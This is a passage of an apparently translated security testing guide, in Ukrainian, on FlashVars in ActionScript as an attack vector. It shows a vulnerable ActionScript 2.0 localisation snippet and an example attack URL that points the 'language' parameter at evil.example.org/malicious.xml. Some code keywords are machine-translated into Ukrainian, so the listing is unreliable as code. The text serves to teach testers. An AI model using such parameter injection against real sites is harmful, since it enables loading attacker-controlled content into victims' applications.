 http://www.example.org/somefilename.swf?var1=val1&var2=val2

У ActionScript 3.0 розробник повинен явно призначити значення FlashVar локальним змінним. Як правило, це виглядає так:

var paramObj:Object = LoaderInfo(this.root.loaderInfo).parameters;<br>
var var1:String = String(paramObj["var1"]);<br>
var var2:String = String(paramObj["var2"]);<br>
У ActionScript 2.0 будь-яка неініціалізована глобальна змінна вважається FlashVar. 
Глобальні змінні – це ті змінні, перед якими додаються _root, _global або _level0. Це означає, що якщо такий атрибут, як _root.varname, не визначений у всьому потоці коду, він може бути перезаписаний параметрами URL:

http://victim/file.swf?varname=value

Незалежно від того, чи ви використовуєте ActionScript 2.0 чи ActionScript 3.0, FlashVars може бути вектором атаки. Давайте розглянемо код ActionScript 2.0, який є вразливим:

приклад:

movieClip 328 __Packages.Locale {

#initclip<br>
    if (!_global.Locale) {<br>
    var v1 = функція (on_load) {<br>
        var v5 = новий XML();<br>
        var v6 = це;<br>
        v5.onLoad = функція (успіх) {<br>
        якщо (успіх) {<br>
            trace('Locale loaded xml');<br>
            var v3 = this.xliff.file.body.$trans_unit;<br>
            змінна v2 = 0;<br>
            while (v2 < v3.length) {<br>
            Locale.strings[v3[v2]._resname] = v3[v2].source.__text;<br>
            ++v2;<br>
            }<br>
            on_load();<br>
        } ще {}<br>
        };<br>
        if (_root.language != undefined) {<br>
        Locale.DEFAULT_LANG = _root.language;<br>
        }<br>
        v5.load(Locale.DEFAULT_LANG + '/player_' +<br>
                            Locale.DEFAULT_LANG + '.xml');<br>
    };<br>
    
Вищенаведений код може бути атакований за допомогою запиту:

http://victim/file.swf?language=http://evil.example.org/malicious.xml?

## Небезпечні методи
Коли точку входу ідентифіковано, дані, які вона представляє, можуть бути використані небезпечними методами. Якщо дані не відфільтровано чи перевірено, це може призвести до певних уразливостей.

Небезпечними методами з версії r47 є:
